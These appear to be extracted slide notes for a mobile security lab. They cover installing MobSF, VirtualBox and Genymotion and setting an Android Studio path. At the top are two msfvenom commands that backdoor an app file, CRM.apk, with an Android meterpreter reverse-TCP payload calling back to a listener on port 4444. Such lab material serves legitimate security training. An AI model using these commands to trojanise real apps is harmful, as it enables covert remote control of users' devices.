

To inject an apk with a payload
msfvenom -x CRM.apk --arch dalvik --platform android –p android/meterpreter/reverse_tcp LHOST=192.168.1.114 LPORT=4444 -e generic/none -f raw -o > CRM_infected.apk

msfvenom -x CRM.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.76 LPORT=4444 -o CRM_backdoored.apk
----
To install and run MobSF
apt-get install python3-pip
apt-get install python3-venv
git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF.git
cd Mobile-Security-Framework-MobSF
./setup.sh
./run.sh
Open http://localhost:8000/
---
install virtualbox tools kali@kali:~$ sudo apt install -y virtualbox virtualbox-ext-pack
download genymotion and run it
genymotion.com
----
If you are using Android Studio
echo$PATH
export PATH="$HOME/kali/Downloads/android-studio/jre/bin:$PATH"